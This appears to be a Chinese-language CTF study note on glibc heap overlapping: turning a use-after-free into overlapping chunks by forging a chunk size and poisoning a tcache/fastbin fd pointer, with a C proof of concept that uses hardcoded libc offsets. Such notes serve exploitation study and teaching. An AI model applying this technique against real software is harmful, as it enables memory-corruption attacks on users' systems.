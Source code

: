 # Heap Overlapping

这里的堆块重叠指的是指让一个堆块能控制另一个堆块的头部，而不是只能控制内存区域，这个条件比普通的 UAF 要强很多。因为普通UAF就是通过控制内存区域，但控制不了头部
## UAF 转 Heap Overlapping
fastbin中，在可控堆块的内存区域伪造 一个chunk（伪造size） ， 然后利用 UAF 部分地址写将 fd 修改到伪造的 chunk 头部，之后利用将 fake chunk 申请出来就可以控制到下一个堆块部分（起始地址在原chunk里，但size一样，当然溢出了），造成造成堆块重叠。（但UAF其实就可以理解为一个heap_overlap了感觉   tcache中不需伪造chunk。改fd就行）

### poc
依然可以通过libc地址泄露heapbase
```bash
 0x7ffff7fae3c0 (mp_+96) —▸ 0x55555555b000 ◂— 0
```

```c
#include <stddef.h>
#include <stdlib.h>
#include <stdio.h>

size_t getheap()
{
    puts("getheap");
    size_t libc_addr=puts-0x79e60;
    size_t* mp_72=libc_addr+0x1f23c0;
    size_t heap=*mp_72;
    return heap;
}

int main()
{    
    size_t chunkarray[0x10];
    size_t heap=getheap();
    for(int i=0;i<7;i++)
    {
        chunkarray[i]=malloc(0x40);
    }
    size_t* chunk1=malloc(0x40);
    for(int i=0;i<7;i++)
    {
        free(chunkarray[i]);
    }
    free(chunk1);
    chunk1[0]=(size_t)(chunk1+2)^(heap>>12); //fd to fake chunk
    chunk1[3]=0x51;    // fake chunk size
    chunk1[4]=heap>>12;  // will fastbin into tcache so fake fd is 0^ heap>>12
    for(int i=0;i<7;i++)
    {
        chunkarray[i]=malloc(0x40);
    }
    size_t*chunk2=malloc(0x40);
    size_t*chunk3=malloc(0x40);
    printf("chunk3 data begin %p \n",chunk3);
    printf("chunk3 data end %p \n",chunk3+8);
    printf("chunk1 data begin %p \n",chunk1);
    printf("chunk1 data end %p \n",chunk1+8);

}
```
